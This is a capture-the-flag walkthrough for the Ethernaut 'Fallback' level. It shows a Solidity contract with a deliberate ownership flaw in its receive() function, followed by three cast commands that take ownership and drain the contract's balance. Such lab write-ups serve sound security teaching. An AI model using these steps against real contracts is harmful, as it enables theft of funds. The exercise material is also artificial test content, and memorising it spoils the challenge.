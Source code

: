 ## Fallback Level Outline

**Difficulty : 1/10**

You will beat this level if:
1. you claim ownership of the contract
2. you reduce its balance to 0

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution

To become the contract owner, we first need to contribute some ETH and then call the fallback function.

### Walkthrough
##### 1. Contributing some eth by calling the "contribute()" function
```console
cast send $LEVEL_ADDRESS "contribute()" --value 0.0001ether --private-key=$PRIVATE_KEY
```

##### 2. Trigger the fallback function **receive()** by sending an eth transaction with an empty data field
```console
cast send $LEVEL_ADDRESS --value 0.0001ether --private-key $PRIVATE_KEY
```

##### 3. Draining the contract
```console
cast send $LEVEL_ADDRESS "withdraw()" --private-key $PRIVATE_KEY
```
## Further Reading

```
    Ether is sent to contract?
                |
        is msg.data empty?
                / \
               /   \
             yes    no  
             /       \    
        receive()    fallback()
         exist?                      
        /     \
       yes     no          
      /         \
  receive()     fallback()
```
### [:arrow_left: Back To Main Menu](../)
